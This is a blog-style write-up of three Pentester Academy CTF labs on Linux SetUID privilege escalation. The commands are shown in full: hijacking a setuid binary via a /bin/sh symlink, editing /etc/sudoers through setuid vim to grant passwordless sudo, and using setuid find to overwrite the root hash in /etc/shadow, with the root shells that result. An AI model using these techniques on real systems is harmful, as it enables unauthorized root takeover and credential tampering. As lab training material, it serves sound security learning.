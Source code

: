 ```yaml
---
layout: post
title: Linux Privilege Escalation - SetUID
description: Linux Privilege Escalation - SetUID
categories: [ctf, privesc, setuid]
tags: [ctf, privesc, setuid, attackdefense]
---
```


Today, I'll be tackling the three SetUID-based privilege escalation attacks currently on Pentester Academy's Attack/Defence CTF.

## Exploiting SetUID Programs
>Vulnerable setuid programs on Linux systems could lead to privilege escalation attacks. In this lab, you are provided a regular user account and need to escalate your privileges to become root. There are 2 programs in your home directory welcome and greetings which might be vulnerable. 
>Your mission:
>    Get as root shell on the system
>    View /etc/shadow
>Note: Development tools e.g. gcc is installed on the system already.

When we open our shell, we're greeted with two files, one of which is a SetUID binary, and the other is not readable by our user.
```
student@attackdefense:~$ ls -l
total 24
-r-x------ 1 root root 8296 Sep 22 21:24 greetings
-rwsr-xr-x 1 root root 8344 Sep 22 21:24 welcome
student@attackdefense:~$ file *
greetings: regular file, no read permission
welcome:   setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

Let's go ahead and run that binary and see what we get.
```
student@attackdefense:~$ ./welcome
Welcome to Attack Defense Labs
```

Seems like it's a pretty straightforward printout of a message, but how can we use this to escalate privileges? 

Omitted here is the half hour I spent scanning the entire filesystem for another SetUID binary to exploit. Eventually, though, I decided that clearly I was intended to use the binary in the home directory, so I should probably look more into it.

Where is that binary getting the message that it outputs? Is it static?
```
student@attackdefense:~$ strings welcome
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
greetings
...
```

The fact that the only imported functions appear to be _setuid_ and _system_, coupled with the fact that there is a string of the file _greetings_ that is marked as an executable likely means that _welcome_ is in fact just executing _greetings_.
At this point, I felt very silly. I had spent half an hour trying to make everything more hard than it was.

Knowing that our setuid program is just blindly executing _greetings_, I know that if I create a symlink to /bin/sh named greetings, then execute _welcome_ I should get a root shell. It is worth noting that this only works because I am the owner of the /home/student directory, allowing me to delete the existing _greetings_.

```
student@attackdefense:~$ rm /home/student/greetings
rm: remove write-protected regular file '/home/student/greetings'? y
student@attackdefense:~$ ln -s /bin/sh greetings
student@attackdefense:~$ ./welcome
# id
uid=0(root) gid=999(student) groups=999(student)
# head /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
```

We have now successfully escalated to a root shell.

## Exploiting SetUID Programs II
>As you've seen in another challenge in this category, setuid programs can provide great power and flexibility, but if not secured properly, can easily lead to a full system compromise. 
>Your mission is to get a root shell on the box!

As far as missions go, this one is straightforward: Get r00t. 

When we get into our shell, there's nothing in the home directory. As the name of the game is setuid, let's go ahead and enumerate all setuid programs. As an added bonus, we will throw in a CTF-ism, and only look for files with a modification date more recent than that of bash.

```
student@attackdefense:~$ find / -xdev -perm -4000 -newermm /bin/bash 2>/dev/null
/usr/bin/vim.tiny
/bin/mount
/bin/umount
```

Only one of those programs doesn't need root, so vim is likely our way in. Let's just give ourselves sudo access (with no password, because we don't know student's password).

I won't be pasting text for this one, because Vim takes up the whole screen and such.

_vim.tiny /etc/sudoers_

Add the following line: _%student ALL=(ALL) NOPASSWD:ALL_

Force write-quit using _:wq!_. Since we opened the file as root, it will save our changes despite the warnings about it being a read-only file.

Now, lets spawn us a root shell.
```
student@attackdefense:~$ sudo su
root@attackdefense:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Got r00t? Yes we do.

## Exploiting SetUID Programs III
>Sometimes an admin might create setuid permissions for a common program to run as root. This is done to allow regular users to perform a routine task. Unfortunately, even completely benign looking programs can be misused by an attacker. 
>Your mission is to get a root shell on the box!

As with before, we have no files in our home directory, so we will go ahead and enumerate setuid executables.

```
student@attackdefense:~$ find / -xdev -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/find
/usr/bin/newgrp
/usr/bin/chsh
/bin/mount
/bin/umount
/bin/su
```

_find_ is the only executable that is not always setuid, and for good reason. _find_ has a somewhat obscure option to execute arbitrary code for every file found. So, let's get us some r00t.

My favourite tactic, due to it's relative ease, is to replace the existing root password hash with _1234_, the hash for which being _$6$ZbvneNDSEXXO4pk1$DmvtdGOHZA8mbpVih5xtHrBcKk8VxZ0rXwLEK2M1iciGvM6qHXfuSY5YosPHj3Zv063JUX2p1TQqya4k1Azjx0_.

```
student@attackdefense:~$ find . -exec sed -Ei 's/^(root\:)\*(.*)/\1\$6\$ZbvneNDSEXXO4pk1\$DmvtdGOHZA8mbpVih5xtHrBcKk8VxZ0rXwLEK2M1iciGvM6qHXfuSY5YosPHj3Zv063JUX2p1TQqya4k1Azjx0\2/' /etc/shadow \;
student@attackdefense:~$ su
Password:
root@attackdefense:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Pwned.

## Conclusion
All in all, this was an interesting set of challenges. I definitely think that the first challege was the hardest of all three, because a little bit of reverse engineering was needed. The second challenge was a setuid vulnerability I had not encountered before, but was straightforward enough. The third I had actually seen in a previous CTF somewhere, though I cannot recall where.

